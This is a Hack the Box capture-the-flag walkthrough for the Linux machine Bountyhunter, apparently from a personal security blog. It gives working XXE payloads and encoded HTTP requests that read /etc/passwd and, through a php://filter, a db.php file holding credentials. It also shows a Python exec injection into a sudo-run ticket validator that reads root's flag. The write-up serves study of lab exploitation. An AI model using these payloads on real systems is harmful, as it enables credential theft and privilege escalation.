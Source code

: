 +++
author = "Nick"
categories = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
date = 2021-11-20T15:01:08Z
description = ""
draft = false
thumbnail = "/images/2021/08/bounty.png"
slug = "hack-the-box-bountyhunter"
tags = ["hack the box", "Linux", "easy", "XXE", "burpsuite", "php filters", "python", "GTFObins"]
title = "Hack the Box - Bountyhunter"
url = "/hack-the-box-bountyhunter"
 

+++


Welcome! Today we are going to be doing the Hack the Box machine - Bountyhunter. This is listed as an easy Linux machine. Let's see what's in store!

As always, we start with a full `nmap` scan. Here are the resutlts:

```
Nmap scan report for 10.10.11.100
Host is up (0.049s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two ports open. Let's see what's being hosted on port 80. When we land on the page, we see a standard landing page. Digging around, we find a `log_submit.php` page. When we fill out the data required, we get the following response.

![](/images/2021/08/image-28.png)

Since this entry point will be a web entry point. We'll do everything going forward inside `Burpsuite`. We check the request and we see that it's coming accross as base64 encoded XML data.

![](/images/2021/08/image-27.png)

![](/images/2021/08/image-29.png)

Before we dig much futher into the web requests, we're going to start some basic enumeration and see what we can find. We know there is a endpoint called `tracker_diRbPr00f314.php`, this would lead us to believe we won't be able to enumerate it.

Command:
`gobuster dir -u http://10.10.11.100 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php,.old,.bak -t 60 -b 403,404`

This runs but doesn't find much of anything, shocker. Now, back to the original request. We know that `XXE` is a common attack vector, it's possible it's our foothold here.

The above is a malformed `base64` encoding. The `%3D` is URL encoding for `=`. Thus our full data set would be:

`PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4xPC90aXRsZT4KCQk8Y3dlPjI8L2N3ZT4KCQk8Y3Zzcz4zPC9jdnNzPgoJCTxyZXdhcmQ+NDQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4=`

Giving us the following data being sent:

![](/images/2021/08/image-30.png)

Now we need to craft a PoC. You can read more on [XXE here](https://portswigger.net/web-security/xxe). We'll use the basic example they had listed for our PoC. Here is our payload:

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
        <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

Once we have our payload created, we need to convert it to base64. Then we need to convert that base64 to URL encoding, since it will have some `+` signs in it. Overall our request looks like this:

```
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
Content-Length: 305
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.10.11.100
Referer: http://10.10.11.100/log_submit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCSAgPCFET0NUWVBFIGZvbyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2bIF0%2bCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bMTwvdGl0bGU%2bCgkJPGN3ZT4yPC9jd2U%2bCgkJPGN2c3M%2bMzwvY3Zzcz4KCQk8cmV3YXJkPiZ4eGU7PC9yZXdhcmQ%2bCgkJPC9idWdyZXBvcnQ%2b
```

You can see we are only trying to view the `/etc/passwd` file as our PoC. We put it into `Burp` and see what we get.

![](/images/2021/08/XXE.gif)

It works! Perfect! Now we need to leverage this to obtain a foothold. Based on the above data, we know the user we are after - `development`. After attempting to read `id_rsa` and `db.php` files with the traditional method of `file:///`, we need to leverage something different. We need to use a `php filter` to obtain access to the files we want.

Syntax:
`"php://filter/convert.base64-encode/resource=/var/www/html/db.php"`

This will be the payload portion of our `XXE`. Here's our new `XXE` payload.

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
	  <!DOCTYPE foo [ 
              <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> 
                 ]>
		<bugreport>
		<title>1</title>
		<cwe>2</cwe>
		<cvss>3</cvss>
		<reward>&xxe;</reward>
		</bugreport>
```

After we convert this to base64 and URL encode it, we get a valid response:

![](/images/2021/08/image-32.png)

A base64 encoded string. When we decode it, we get the following:

![](/images/2021/08/image-33.png)

A set of credentials! Finally! Now, we see a `testuser` account but I'm willing to bet, that these credentials will also work for the user `development` as well. Let's try to leverage them to `SSH`.

Sure enough, they do!

![](/images/2021/08/image-34.png)

We are able to log in and get the `user.txt` flag! Once we're in, we check `sudo -l` to see if there are any easy hints for priv esc.

![](/images/2021/08/image-36.png)

Sure enough, we have access to `ticketValidator.py`. When we view the file, we see that there are some basic requirements to the file we want to read.

* It must be a `.md` file
* It must start with # Skytrain Inc
* The second line must start with ## Ticket to
* The third line must be __Ticket Code __ 
* The fourth line can be the code we want to execute. It has to start with `**`. 
* The code checks for `% 7 == 4`. That number is 102 or 4.
* Then it will split the file along a `+` then run the code AFTER that split.  

So we'll create a file called `rootme.md` and add our first three lines.

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
```

Now we can give it our malicious code. We can drop right to a r[oot shell via python](https://gtfobins.github.io/gtfobins/python/). Remember, we still need to use the exec() function in order to get execution.

Here's our final code:

```
# Skytrain Inc
## Ticket to rootsville
__Ticket Code:__
**102+6969 and exec("import os;os.system('cat /root/root.txt')")
```

Then we run our script.

Command:
`sudo python3.8 /opt/skytrain_inc/ticketValidator.py`

![](/images/2021/08/bountyroot.gif)

There we have it, the `root.txt` flag!



